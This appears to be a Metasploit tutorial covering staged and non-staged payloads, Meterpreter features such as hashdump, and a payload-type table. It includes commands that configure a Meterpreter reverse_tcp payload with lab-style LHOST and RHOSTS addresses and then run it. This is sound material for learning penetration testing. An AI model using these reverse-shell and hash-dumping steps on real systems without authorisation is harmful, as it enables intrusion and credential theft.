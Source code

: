 A **staged** payload separates functionality into multiple stages. The initial stage (`Stage0`) establishes the reverse connection and downloads the second stage (`Stage1`) to set up the shell.

A **non-staged** payload combines everything into a single execution.

Examples:
- **Staged**: `windows/meterpreter/reverse_tcp`
- **Non-Staged**: `windows/shell_reverse_tcp`

# Meterpreter

**Meterpreter** is an advanced payload that uses DLL injection to offer:
- Persistence in memory.
- Difficulty of detection through forensic techniques.
- Dynamic loading of scripts and plugins.

Common Meterpreter commands include:
- `getuid`: View the current user.
- `hashdump`: Extract system hashes.
- `screenshot`: Capture screenshots of the target.

# Searching for Payloads

Use the `show payloads` command to list all available payloads in Metasploit. Filter results using `grep` to find specific payloads.

```bash
msf6 > show payloads
msf6 > grep meterpreter grep reverse_tcp show payloads
```

## Usage Example

1. Select a payload:
   ```bash
   msf6 > set payload windows/x64/meterpreter/reverse_tcp
   ```
2. Configure the parameters:
   ```bash
   msf6 > set LHOST 10.10.14.15
   msf6 > set RHOSTS 10.10.10.40
   ```
3. Execute the exploit:
   ```bash
   msf6 > run
   ```

# Common Payload Types

| Payload                           | Description                                                              |
|------------------------------------|--------------------------------------------------------------------------|
|generic/custom	                     | Generic listener, multi-use                                              |
|generic/shell_bind_tcp	             | Generic listener, multi-use, normal shell, TCP connection binding        |
|generic/shell_reverse_tcp	         | Generic listener, multi-use, normal shell, reverse TCP connection        |
|windows/x64/exec	                   | Executes an arbitrary command (Windows x64)                              |
|windows/x64/loadlibrary	           | Loads an arbitrary x64 library path                                      |
|windows/x64/messagebox	             | Spawns a dialog via MessageBox using a customizable title, text & icon   |
|windows/x64/shell_reverse_tcp	     | Normal shell, single payload, reverse TCP connection                     |
|windows/x64/shell/reverse_tcp	     | Normal shell, stager + stage, reverse TCP connection                     |